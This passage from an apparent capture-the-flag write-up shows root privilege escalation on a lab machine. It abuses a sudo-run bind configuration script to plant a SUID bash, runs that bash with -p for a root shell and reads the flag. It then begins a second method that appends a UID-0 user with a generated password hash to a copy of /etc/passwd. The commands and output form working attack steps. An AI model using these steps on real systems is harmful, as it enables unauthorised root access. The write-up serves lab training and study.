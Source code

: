 I’ll run `sudo bindmgr.sh`, and the script fails at the config check, but the SUID `bash` is now there:

```

bindmgr@dynstr:/dev/shm$ sudo bindmgr.sh 
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
[+] Running /usr/local/bin/bindmgr.sh to stage new configuration from /dev/shm.
[+] Creating /etc/bind/named.conf.bindmgr file.
[+] Staging files to /etc/bind/named.bindmgr.
[+] Checking staged configuration.
[-] ERROR: The generated configuration is not valid. Please fix following errors: 
    /etc/bind/named.bindmgr/bash:1: unknown option 'ELF...'
    /etc/bind/named.bindmgr/bash:14: unknown option 'hȀE'
    /etc/bind/named.bindmgr/bash:40: unknown option 'YF'
    /etc/bind/named.bindmgr/bash:40: unexpected token near '}'

bindmgr@dynstr:/dev/shm$ ls -l /etc/bind/named.bindmgr/
total 1156
-rwsrwxrwx 1 root bind 1183448 Jun 13 22:49 bash

```

Running it (with `-p` to avoid dropping privs) gives a root shell:

```

bindmgr@dynstr:/dev/shm$ /etc/bind/named.bindmgr/bash -p
bash-5.0# 

```

And the flag:

```

bash-5.0# cat /root/root.txt
5dd46220************************

```

#### –target-directory

The `--target-directory` flag is also a way to get root. My first thought was to write an SSH key to `/root/.ssh`, but that didn’t work (turns out that `/root/.ssh` doesn’t exist). Still, I can overwrite `/etc/passwd`. I’ll need four files.

First I need a modified copy of the `passwd` file with my user included:

```

bindmgr@dynstr:/tmp/tmp.fyyGsVJY8c$ cd $(mktemp -d)
bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ cp /etc/passwd .
bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ openssl passwd -1 0xdf
$1$KLTiIosS$EcdrRFwOKrCmloQFSZ2zn1
bindmgr@dynstr:/tmp/tmp.Fk4IdAaCre$ echo 'oxdf:$1$KLTiIosS$EcdrRFwOKrCmloQFSZ2zn1:0:0:pwned:/root:/bin/bash' >> passwd

```
